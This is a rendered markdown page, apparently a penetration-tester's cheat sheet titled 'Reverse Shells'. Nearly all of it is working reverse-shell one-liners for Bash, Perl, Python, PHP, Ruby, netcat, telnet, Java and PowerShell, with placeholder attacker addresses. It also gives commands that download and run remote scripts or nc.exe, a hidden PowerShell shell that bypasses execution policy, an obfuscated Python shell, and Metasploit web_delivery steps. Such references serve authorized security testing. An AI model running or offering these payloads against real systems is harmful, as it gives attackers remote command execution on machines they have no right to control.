```yaml
---
layout: default
title: Reverse Shells
---
```


# Reverse Shells
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Linux
### Bash
```shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/<ip>/<port>; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/<ip>/<port>
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/<ip>/<port>; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/<ip>/<port> 0>&1
```
- UDP, use `-u` flag with nc for catching locally

### Perl
```shell
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

### Python
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```shell
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```shell
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

### Netcat
```shell
nc -e <shell> <ip> <port>
/bin/sh | nc <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f  # no `-e` flag
```

Secure with whitelisted IP and SSL
```shell
ncat -e <shell> --allow <whitelisted ip> --ssl <ip> <port>  # Whitelist IP and use SSL
ncat -lvnp <port> --ssl                                            # Catch shell
```

### Telnet
```shell
rm -f /tmp/p; mknod /tmp/p p && telnet <ip> <port> 0/tmp/p
```

```shell
telnet <ip> <listen port> | /bin/bash | telnet <ip> <target port>
```
- listen locally on `<target port>`

### Java
```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

### xterm
```shell
xterm -display <ip>:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +<ip>`

---

## Windows
### Netcat
Upload nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
```powershell
powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
```
```powershell
powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
```
```powershell
powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
```
```powershell
curl -o nc.exe http://10.10.10.10/nc.exe
```

Execute
```powershell
nc -e powershell 10.10.10.10 9999
```
```powershell
nc -e cmd 10.10.10.10 9999
```

### Perl
```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### PowerShell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Download and execute remote PS file and execute (e.g. Nishang)
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev-shell.ps1')
```

### Python
```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('<ip>', <port>)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### Ruby
```powershell
ruby -rsocket -e 'c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Metasploit web_delivery
```shell
use multi/script/web_delivery
set target <target>  # 0=Python, 1=PHP, 2=PSH, 3=Regsvr32, 4=pubprn, 5=PSH (Binary), 6=Linux, 7=Mac OS X
run                  # Paste link generated (can remove proxy lines to reduce length/complexity)
```

---

## Catching Shells
### Metasploit
```shell
use exploit/multi/handler
```

### Netcat
```shell
nc -lvnp <port>
```
- can use `-vv`/`-vvv` to debug with extra verbosity

--- 

## References
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
